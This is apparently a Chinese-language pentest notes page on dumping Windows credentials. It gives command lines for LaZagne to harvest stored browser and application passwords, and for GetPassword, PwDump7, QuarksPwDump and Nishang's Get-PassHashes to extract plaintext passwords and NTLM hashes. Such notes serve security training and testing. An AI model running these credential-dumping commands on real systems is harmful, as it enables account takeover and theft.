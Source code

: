 ![image-20230202175453606](https://img.gyxnb.top/img/image-20230202175453606.png)

## LaZagne各类密码

- 是⽤于开源应⽤程序获取⼤量的密码存储在本地计算机上。每个软件都使⽤不同的技术（明⽂、API、⾃定义算 法、数据库等）存储其密码。开发此⼯具的⽬的是为最常⽤的软件查找这些密码。 
- 命令：`laZagne.exe all`

```
laZagne.exe all
laZagne.exe browsers
laZagne.exe browsers ‐firefox
laZagne.exe all ‐oN
laZagne.exe all ‐oA ‐output C:\Users\test\Desktop
laZagne.exe ‐h
laZagne.exe browsers ‐h
laZagne.exe all ‐vv
laZagne.exe all ‐quiet ‐oA
```



![image-20230202175540985](https://img.gyxnb.top/img/image-20230202175540985-16753317422881.png)



# Windows其他类型抓取NTLM HASH工具

## getpassword

打开GetPass工具所在的目录。打开命令行环境。运行64位程`GetPassword`。运行该程序后,即可获得明文密码

![image-20230202175947353](https://img.gyxnb.top/img/image-20230202175947353.png)

## pwdump7

在命令行环境中运行PwDump7程序,可以得到系统中所有账户的NTLMHash

![image-20230202180010430](https://img.gyxnb.top/img/image-20230202180010430.png)

## QuarksPwDump

下载QuarksPwDump.exe,在命令行环境中输人 `QuarksPwDump.exe --dump-hash-local` 导出三个用户的NLMHash

![image-20230202180041280](https://img.gyxnb.top/img/image-20230202180041280.png)

## nishang

nishang中的 GET-PASSHashes.ps1可以可以获取hash

```
Import‐Module .\Get‐PassHashes.ps1
Get‐PassHashes
```
